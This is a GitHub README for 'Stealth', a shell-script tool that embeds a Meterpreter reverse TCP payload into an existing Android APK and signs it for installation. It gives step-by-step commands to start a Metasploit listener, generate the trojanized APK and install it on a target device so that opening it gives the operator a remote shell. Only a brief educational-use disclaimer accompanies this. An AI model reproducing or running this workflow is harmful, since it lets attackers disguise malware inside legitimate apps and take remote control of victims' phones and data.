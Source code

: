 # Stealth (Apk payload generator)
<h3>Android Payload Generator</h3>

**Author:** Declanmidd  
**GitHub:** [github.com/Declanmidd](https://github.com/Declanmidd)

## Overview

The **Android Payload Generator** is a tool designed for educational security purposes. It allows users to generate a malicious Android APK that contains a Meterpreter reverse shell payload. This tool utilizes `msfvenom` to embed the payload into an existing APK, making it useful for penetration testing and security research.

**Disclaimer:** This tool is intended for educational use only. Always ensure you have permission to test the target device.

## Features

- Generates a Meterpreter reverse TCP payload.
- Embeds the payload into an existing APK template.
- Signs the APK for successful installation on Android devices.
- Verifies and aligns the APK for optimal performance.

## Requirements

- **Kali Linux** or a similar distribution with Metasploit installed.
- **Java Development Kit (JDK)** for APK signing.
- **Android SDK** tools, specifically `zipalign`.

## Installation

1. **Clone the repository**:
   ```bash
   git clone https://github.com/declanmidd/stealth
   cd stealth
   ```

2. **Make the script executable**:
   ```bash
   chmod +x generate_apk.sh
   ```

## Usage

### Command Syntax

```bash
./generate_apk.sh <LHOST> <LPORT> <TEMPLATE_APK>
```

### Parameters

- `<LHOST>`: The local IP address that the payload will connect back to.
- `<LPORT>`: The port on which the listener will wait for the incoming connection.
- `<TEMPLATE_APK>`: The path to the existing APK that will be used as a template.

### Example

1. **Start Metasploit** to set up a listener:
   ```bash
   msfconsole
   ```

2. **Set up the listener** in Metasploit:
   ```bash
   use exploit/multi/handler
   set payload android/meterpreter/reverse_tcp
   set LHOST <Your Local IP>
   set LPORT <Your Port>
   exploit
   ```

3. **Run the payload generator script**:
   ```bash
   ./generate_apk.sh 192.168.1.10 4444 /path/to/template.apk
   ```

4. **Install the generated APK (`signed_jar.apk`)** on the target Android device.

5. **Once the target device opens the APK**, you should receive a Meterpreter session in your Metasploit console.

## What the Tool Does

- **Generates Payload**: Uses `msfvenom` to create a Meterpreter payload embedded in a specified template APK.
- **Creates Keystore**: Automatically generates a keystore to sign the APK.
- **Signs the APK**: Ensures that the APK is properly signed for installation on Android devices.
- **Verifies and Aligns**: Confirms that the APK is correctly signed and optimized for performance.

## Important Notes

- **Use Responsibly**: Only use this tool on devices and networks you own or have explicit permission to test.
- **Dependencies**: Ensure all required packages are installed before running the script.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
